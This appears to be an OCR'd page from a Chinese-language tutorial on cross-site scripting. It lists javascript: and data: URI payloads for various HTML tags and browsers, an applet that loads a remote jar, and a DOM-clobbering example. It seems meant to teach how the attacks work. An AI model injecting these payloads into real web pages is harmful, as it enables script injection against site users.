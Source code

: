 代码执行时必须使用()，不可以使用vbscript中的alert+2，当点击之后，会弹出一个写在当前页面DOM中的数字2的警告框。

javascript:和vbscript:协议执行后的结果将会映射在DOM后面。

```
<a href="javascript:'\x3cimg src\x3dx onerror=alert(document.domain)>'">click me</a>

```

以上代码在IE和Firefox中点击click me之后可执行，并且可以看到弹出的domain为a标签中所在的domain。

以上代码需要用户交互，下面看个不需要用户交互的例子，使用object标签和data:标签：

```
<object data="javascript:alert(1)">
<object data="data:text/html,<script>alert(2)</script > ">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg">

```

以上三个在Firefox中可执行，第二个可在Opera中执行，把各标签中各属性支持javascript的总结了一些：

```
<iframe src="javascript:alert(1)"> // 火狐，Chrome, IE8
<embed src="javascript:alert(2)"> // 火狐 
<img src="javascript:alert(4)"> // IE6
<image src="javascript:alert(5)"> // IE6
<body background="javascript:alert(5)"> // IE6 
<script src="javascript:alert(6)"> // IE6 
<table background="javascript:alert(7)"> // IE6 
<isindex type="image" src="javascript:alert(8)"> // IE6-7

```

以及applet标签中code和archive属性可以用来调用jar文件，执行java代码。

```
<applet code="XSS" archive="http://someserver.com/xss.jar"></applet>

```

Javascript可以通过DOM直接获取当前页面中对应的id和name属性的对象：

```
<html>
<body>
<div id="test"></div>
<script>alert(test)</script>
</body>
</html>

```

上面代码可以看出Javascript中并没定义test变量，但是获取到了页面中id为test的对象。

反过来，我们可以在外部直接控制Javascript变量，并且在一些浏览器中可以重写Javascript中已有的变量。

```
<html>
<body>
<form id="location" href="bar">
<script>alert(location.href)</script>
</body>
</html>

```

